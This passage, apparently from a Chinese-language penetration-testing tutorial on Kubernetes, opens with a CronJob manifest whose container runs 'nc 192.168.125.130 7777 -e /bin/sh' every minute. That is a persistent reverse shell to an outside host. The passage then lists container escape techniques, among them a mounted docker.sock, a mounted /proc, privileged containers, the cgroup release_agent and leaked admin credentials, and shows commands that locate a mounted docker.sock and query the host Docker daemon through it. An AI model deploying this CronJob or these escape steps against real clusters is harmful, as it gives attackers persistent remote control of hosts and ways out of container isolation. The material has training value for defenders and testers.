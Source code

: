 ```c
apiVersion: batch/v1
kind: CronJob		#使用CronJob对象
metadata:
  name: hello
spec:
  schedule: "*/1 * * * *"	#每分钟执行一次
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hello
            image: busybox
            imagePullPolicy: IfNotPresent
            command:
            - /bin/sh
            - -c
            - nc 192.168.125.130 7777 -e /bin/sh
          restartPolicy: OnFailure
```

### 容器逃逸和提权

容器逃逸主要有以下几个方法  
容器逃逸主要有以下方法：  
**配置不当**

-   错误挂载：挂载宿主机 docker.sock
-   错误挂载：挂载宿主机/proc
-   错误挂载：lxcfs 容器逃逸特
-   权容器：挂载设备进行逃逸
-   错误配置：通过 Cgroup Release Agent 进行容器逃逸  
    **其他**
-   k8s 管理员配置文件泄露
-   高权限 service account  
    **漏洞**
-   操作系统内核漏洞
-   应用程序漏洞

主要参考这篇文章 https://blog.csdn.net/w1590191166/article/details/113089994，写的非全棒  
下面举一个配置不当导致逃逸的例子

#### 挂在宿主机 docker.sock 导致逃逸

使用者将宿主机/var/run/docker.sock 文件挂载到容器中，目的是能在容器中也能操作 docker，通过 find 命令查看 dockers.sock 等高危目录和文件  
通过下面命令查看容器中是否存在 docker.sock

```c
find / -name docker.sock
```

在容器查看宿主机 docker 信息

```c
docker -H unix:///var/run/docker.sock info
```
